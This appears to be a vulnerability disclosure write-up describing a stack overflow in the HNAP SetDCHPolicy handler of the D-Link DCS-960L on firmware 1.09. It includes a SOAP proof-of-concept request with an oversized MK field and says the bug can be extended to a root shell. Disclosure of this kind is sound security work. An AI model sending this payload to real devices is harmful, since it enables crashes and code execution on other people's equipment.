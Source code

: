 # DCS-960L 1.09 Stack overflow

## Product Info

**Supplier**: [Smart Home, SMB and Enterprise solutions | D-Link (dlink.com)](https://www.dlink.com/en)

**Router model**: DCS-960L

**Router Version**: 1.09

**Firmware**: [D-Link Technical Support (dlinktw.com.tw)](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L)


## Vulnerability introduction

  A stack overflow vulnerability in the SetDCHPolicy function of the HNAP service of D-Link DCS-960L with firmware version 1.09 allows an attacker to execute arbitrary code.



## Vulnerability analysis



In HNAP's SetDCHPolicy function, by constructing MK, the program does not check the length of the MK field, causing a stack overflow.

![image](https://github.com/user-attachments/assets/eec2b9b7-309a-4bd8-a8cd-148e3cef7dd5)



## POC



```xml
SOAPAction: http://192.168.0.1/HNAP1/Login
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SetDCHPolicy xmlns="http://192.168.0.1/HNAP1/">
      <PolicyList>
        <PolicyInfo>
          <MK> a * 160000 </MK>
        </PolicyInfo>
      </PolicyList>
    </SetDCHPolicy>
  </soap:Body>
</soap:Envelope>
```
You can write exp to further obtain the root shell
